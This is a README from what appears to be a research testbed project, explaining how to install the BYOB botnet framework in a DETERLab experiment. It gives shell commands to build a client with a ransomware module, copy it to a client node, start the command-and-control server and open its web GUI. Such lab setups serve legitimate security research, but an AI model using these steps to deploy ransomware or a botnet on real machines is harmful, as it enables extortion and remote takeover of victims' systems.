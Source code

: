 # DISCERN

This page describes how we install and use [BYOB](https://github.com/malwaredllc/byob/)

## Prerequisites

<!-- Clone this repository in your XDC: https://github.com/briankoco/discern <br> -->
Git Submodule Location: https://github.com/STEELISI/byob

Run this script in your XDC:

```shell
cd testbed/
sudo bash xdc/init-xdc-defaults.sh
```

## Installation

Run this ansible playbook in your XDC to download and install BYOB. There are a few assumptions currently:
1. You are using the `testbotenv` topology shown here: https://launch.mod.deterlab.net/project/discern/experiment/testbotenv
2. You only want to install BYOB on the `botmaster` node

To run the playbook, do:
```shell
cd ansible/
ansible-playbook -i inventories/testbotenv.ini setup-testbotenv.yml
```

## Example: Server/Client setup


### Building a client

We will use the `botmaster` node to generate a client. The client will have a ransomware
module built into it.

SSH to the botmaster node from your XDC
```shell
ssh botmaster
```

```shell
cd /opt/byob/byob.git/byob
python3 client.py --freeze botmaster.infra 1337 ransom
```

After this completes, you should see a line like the following:
```shell
(24,551,600 bytes saved to file: /opt/byob/byob.git/byob/dist/zGs)
```

We now scp this module to our home directory on the client (for example, `b1`):
```shell
scp dist/zGs b1.infra:
```

Lastly, startup the server
```shell
python3 server.py
```

### Staring the client

SSH from your XDC to the client (for example, `b1`):
```shell
ssh b1
```

Start the module that you scp'd above:
```
./zGs
```

At this point, the server should display a message like:
```
[+] Connection: 172.30.0.11
    Session: 0
    Started: Wed Nov  8 20:34:50 2023
```

## Running the GUI

There is also a GUI option that can be used on the server instead of the server.py command line
tool.  SSH to the `botmaster` node and execute this command and leave the server running:
```shell
cd /opt/byob/byob.git/web-gui
python3 run.py
```

### Accessing the BYOB GUI

Use SSH port forwarding to reach the GUI. From your local workstation:
```shell
mrg xdc ssh <your XDC> -L 8000:botmaster:5000
```

Then, from a web browser on your local machine, navigate to http://localhost:8000/

